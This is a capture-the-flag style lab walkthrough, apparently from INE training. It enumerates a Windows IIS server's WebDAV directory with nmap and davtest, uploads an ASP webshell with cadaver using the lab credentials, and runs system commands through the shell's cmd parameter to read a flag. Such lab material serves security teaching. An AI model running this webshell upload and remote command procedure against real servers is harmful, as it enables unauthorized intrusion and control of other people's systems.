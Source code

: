 # LAB: Windows IIS Server DAVTest

#### **Step 1:** Open the lab link to access the Kali machine.

<figure><img src="https://assets.ine.com/lab/learningpath/f250374be0b99a51b1406f3749793c26fdd134b32b3f54e3bcd3c3c4c37a52da.jpg" alt=""><figcaption></figcaption></figure>

#### **Step 2:** Run a Nmap scan against the target.

**Command:**

```
nmap demo.ine.local
```

<figure><img src="https://assets.ine.com/lab/learningpath/f7a9acd2b274af5049bb7fc4433a6eb598cc2a8a281395b367f8e1d5f764489f.jpg" alt=""><figcaption></figcaption></figure>

#### **Step 3:** We have discovered that multiple ports are open. We will be focusing on port 80 where the IIS server is running.

Running http-enum nmap script to discover interesting directories.

**Command:**

```
nmap --script http-enum -sV -p 80 demo.ine.local
```

<figure><img src="https://assets.ine.com/lab/learningpath/df13a9ee854d7e5f3befd8de3bbcf5dcc1496d5750d880dfe55bafccaf797270.jpg" alt=""><figcaption></figcaption></figure>

We have found the webdav directory also received 401 error i.e Unauthorized.

#### **Step 4:** Running davtest tool.

**Command:**

```
davtest -url http://demo.ine.local/webdav
```

<figure><img src="https://assets.ine.com/lab/learningpath/81538439ab6feef8e856ced0105c381801ee35288e37c64807c4c74cc8500f97.jpg" alt=""><figcaption></figcaption></figure>

We can notice, /webdav path is secured with basic authentication. We have the credentials access the /webdav path using the provided credentials i.e bob:password\_123321.

**Command:**

```
davtest -auth bob:password_123321 -url http://demo.ine.local/webdav
```

<figure><img src="https://assets.ine.com/lab/learningpath/e90f3f5cfdbe3be317fdbdbf96a270fdbcdb5a70205a33acdecbb8e04f21a1f4.jpg" alt=""><figcaption></figcaption></figure>

<figure><img src="https://assets.ine.com/lab/learningpath/dabdc2afce8f66f02651ed02d38ee2b1931b943914d8a0e29e2cb2f875b89ea2.jpg" alt=""><figcaption></figcaption></figure>

We can notice, we have uploaded almost all the important file types to the /webdav directory. Also, we can execute three types of files. i.e asp, text, and html.

#### **Step 5:** Upload a .asp backdoor on the target machine to /webdav directory using cadaver utility.

The .asp backdoor present in “/usr/share/webshells/asp/” directory. i.e /usr/share/webshells/asp/webshell.asp

**Command:**

```
cadaver http://demo.ine.local/webdav
```

**Enter credentials:** bob:password\_123321

<figure><img src="https://assets.ine.com/lab/learningpath/0e8a479bd703ac58a70d18c7cf0fa87755135d98b625d4ae19b47bc279431dc7.jpg" alt=""><figcaption></figcaption></figure>

We can interact with the webdav directory using the cadaver tool.

#### **Step 6:** Uploading asp backdoor to the IIS web server in webdav directory.

**Commands:**

```
put /usr/share/webshells/asp/webshell.asp
ls
```

<figure><img src="https://assets.ine.com/lab/learningpath/e24fd10e5ffff7debfb827d15085538f2b3101c41d73cd6a615f9e1e7b0db81c.jpg" alt=""><figcaption></figcaption></figure>

We have successfully uploaded the backdoor.

#### **Step 7:** Access the backdoor using the firefox browser.

**URL:** http://demo.ine.local/webdav

**Enter credentials:** bob:password\_123321

<figure><img src="https://assets.ine.com/lab/learningpath/e4ed53f53886d9133749e73757dcccbfbf882a441d9665d64784f1bcf0caed20.jpg" alt=""><figcaption></figcaption></figure>

We can enter Windows commands in the text-box input field.

**URL:** http://demo.ine.local/webdav/webshell.asp

<figure><img src="https://assets.ine.com/lab/learningpath/e62852c0b3222af080d3dbbc448876e39e4bb0ce76d7766da503c685ea1b741f.jpg" alt=""><figcaption></figcaption></figure>

We can also input the command inside the URL query string parameter.

**URL:** http://demo.ine.local/webdav/webshell.asp?cmd=whoami

<figure><img src="https://assets.ine.com/lab/learningpath/bb3a8b1b8cf07977eb97ef9fdbdd2ed963873c92edddc410581e28fab5997fb9.jpg" alt=""><figcaption></figcaption></figure>

We are running as an IIS apppool.

#### **Step 8:** Read the flag.

Check the content of the C:\ drive.

**URL:** http://demo.ine.local/webdav/webshell.asp?cmd=dir+C%3A%5C

<figure><img src="https://assets.ine.com/lab/learningpath/329948f63fcc1d199bc7b37189ddc624c5597012e0cd69f1925caf8dcdeae812.jpg" alt=""><figcaption></figcaption></figure>

We can notice, there is a flag.txt file present in the C:\ drive. Reading it.

**URL:** http://demo.ine.local/webdav/webshell.asp?cmd=type+C%3A%5Cflag.txt

<figure><img src="https://assets.ine.com/lab/learningpath/d8155d3afb0c5eb1d798bc884e30a74826aa902679c5a4d647f98e0bee864195.jpg" alt=""><figcaption></figcaption></figure>



























